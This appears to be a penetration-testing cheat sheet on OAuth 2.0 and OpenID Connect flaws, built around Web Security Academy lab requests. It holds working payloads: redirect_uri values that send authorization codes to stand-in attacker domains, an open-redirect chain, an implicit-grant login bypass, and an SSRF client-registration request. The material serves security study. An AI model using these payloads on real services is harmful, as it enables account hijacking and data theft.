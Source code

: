 # OAuth 2.0

<details>

<summary>Introduction</summary>

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

</details>

## <mark style="color:purple;">Identifying OAuth authentication</mark>

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### <mark style="color:purple;">Recon</mark>

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:purple;">Improper implementation of the implicit grant type</mark>

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### <mark style="color:purple;">Account hijacking via redirect\_uri</mark>

Replace `redirect_uri` with a attacker controlled domain

```
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{% hint style="info" %}
**Note**: using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{% endhint %}

**Flawed redirect\_uri validation**

```
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

```
https://server.net/post/next?path=https://attacker.com
```

2. Use this url as `redirect_uri`&#x20;

```
https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
```

{% hint style="success" %}
Tip: the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`
{% endhint %}

### <mark style="color:purple;">Flawed CSRF protection</mark>

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

## <mark style="color:purple;">OpenID Connect</mark>

### <mark style="color:purple;">Identifying OpenID Connect</mark> <a href="#identifying-openid-connect" id="identifying-openid-connect"></a>

Look for the mandatory `openid` scope

### <mark style="color:purple;">Unprotected dynamic client registration</mark>

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "application_type": "web",
    "client_name": "My Application",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

```http
HTTP/2 201 Created
[...]

{[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`

